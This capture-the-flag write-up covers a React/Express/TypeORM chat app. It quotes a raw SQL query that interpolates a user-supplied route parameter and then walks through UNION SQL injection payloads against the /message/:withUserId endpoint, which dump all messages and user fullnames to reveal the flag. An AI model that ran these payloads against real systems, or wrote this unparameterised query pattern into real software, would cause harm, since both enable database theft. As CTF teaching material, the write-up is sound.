

## Introduction


Looking at this big project, written in React and Express and TypeORM (PostgreSQL). 
It is important to read the whole project structure and understand how it works. and ready all the files and how they communicate with each other.
Plus opening it in the browser and trying to interact with it.

## Analysis

After carefully reading the code, I found that the project is a simple web application that allows users to register and login, and they send invitations to each other, they can chat later chat.

going through the services in the backend, the most *Eye-catching* service is the `message.services.ts` file, which is responsible for sending messages to the database and retrieving them.

```ts
const messages = await source.manager.query(`
      SELECT "message"."id" AS "message_id", "message"."message" AS "message", "message"."createdAt" AS "createdAt", "from"."id" AS "from_id", "to"."id" AS "to_id"
      FROM "message" "message" 
      LEFT JOIN "user" "from" ON "from"."id"="message"."fromId"  
      LEFT JOIN "user" "to" ON "to"."id"="message"."toId" 
      WHERE "message"."fromId" = ${withUserId} AND "message"."toId" = ${user.id} OR "message"."fromId" = ${user.id} AND "message"."toId" = ${withUserId}
`)
```

This query is the only one that does not use the TypeORM query builder, It is just a bare SQL raw query, so a high chance that it is vulnerable to SQL injection, Union SQL Injection to be more specific. `user.id` is a variable that is passed from the JWT athenticator, so it is hard to control it, but `withUserId` is a variable that is passed from the frontend, so it is possible to be used as an injection point.
The API Endpoint that uses this service is `/message/:withUserId`, so we can try to inject it.


## Exploitation

When Exploiting a Union SQL Injection, you need to know the number of columns in the query, and the type of each column, and the order of the columns. based on the query above, we can see that the query returns 5 columns, and the order of the columns is `message_id` (integer), `message` (string), `createdAt` (date), `from_id` (integer), `to_id` (integer).

the Only string value in the query is the `message` column, so we can use it to inject our payload, while using NULL values for the other columns.

A prerequisite for this exploit is that we need to have a JWT token, so we need to register and login first. Then we need a valid user ID, for example `1` would be enough.

> payload: 1 union select null, 'TESTING_UNION_ATTACK', null, null, null -- 



We can see that the payload is executed successfully, and the custom message is returned to us alongside the other messages.

Now we need to retrieve something useful from the database, for example, all the messages.

> payload: 1 union select null, message, null, null, null from message --

We don't see any potential flag, yet more messages. Some of them though are trying to point to a certain information, like `haven't you noticed, that the names in this chat are quiet weird?`, `I think I saw pete using a weird name, with {}+ or something`.. which are some possible hints to check the users names... having fullname as a field in the database, we can try to retrieve all of them.

> payload: 1 union select null, fullname, null, null, null from "user" --
Don't forget to put the table name in double quotes, because `user` is a reserved table in PostgreSQL.

Now we can spot the flag in the response.
```json
{
        "id": null,
        "message": "ENIT{yE1+h3+FOUND+4n0X3r+Tm}",
        "createdAt": null,
        "from": {
            "id": null
        },
        "to": {
            "id": null
        }
    },
```


## Conclusion
This was an example of a Union SQL Injection, and how to exploit it. In the middle of a quiet large project, there is always a chance to find a vulnerability, and it is important to read the code carefully and understand how it works.

## Flag

> `ENIT{yE1+h3+FOUND+4n0X3r+Tm}`